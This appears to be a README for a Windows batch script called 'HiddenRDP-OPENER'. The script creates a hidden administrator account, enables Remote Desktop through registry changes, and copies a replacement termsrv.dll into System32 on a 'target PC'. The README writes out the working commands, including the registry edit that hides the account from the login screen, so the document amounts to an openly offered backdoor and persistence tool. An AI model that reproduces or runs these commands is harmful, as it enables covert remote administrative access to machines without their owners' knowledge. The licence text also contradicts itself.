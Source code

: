 # HiddenRDP-OPENER

This script enables Remote Desktop Protocol (RDP) compatibility on any Windows system by creating a hidden administrative profile and modifying registry settings. It is open source, free to use, and has no conditions.

---

## Requirements  
- **Supported Operating Systems:**  
  - Windows 7  
  - Windows 8  
  - Windows 10  
  - *Note: Not tested on Windows XP.*  

---

## How It Works  
1. Creates a hidden user profile with administrative privileges.  
2. Modifies registry settings to enable RDP connections on the target Windows system.  

---

## Configuration  

### Step 1: Edit the Script  
1. Open `RDPScript.bat` in a text editor on your PC.  
2. Make the following changes:  

   #### User Account Configuration  
   `net user hidden 123123 /ADD`  
   - Replace `hidden` with the desired username for the hidden account.  
   - Replace `123123` with the desired password for the account.  

   #### File Path Configuration  
   `xcopy "termsrv.dll" "%windir%\System32\" /s /h /q`  
   - Replace `termsrv.dll` with the full path to the `termsrv.dll` file on the target PC.  
     Example: `C:\Users\comix\Downloads\termsrv.dll`.  

3. Move both `termsrv.dll` and `RDPScript.bat` to the target PC.  

---

## Delete Configuration  

### Step 1: Unhide the Profile  
To delete the hidden profile, modify the following line in `RDPScript.bat`:  
`REG ADD "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /v Hidden /t REG_DWORD /d 0X00000000 /f`  

Change it to:  
`REG ADD "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /v Hidden /t REG_DWORD /d 0X00000001 /f`  

This will make the hidden profile visible.  

---

### Step 2: Disable RDP  
To disable RDP, modify the following line:  
`reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0X00000000 /f`  

Change it to:  
`reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0X00000001 /f`  

---

## License  
This project is open source and free to use with no conditions.  

Copyright © 2019 Soufiyan AKAABOUB
All rights reserved.  
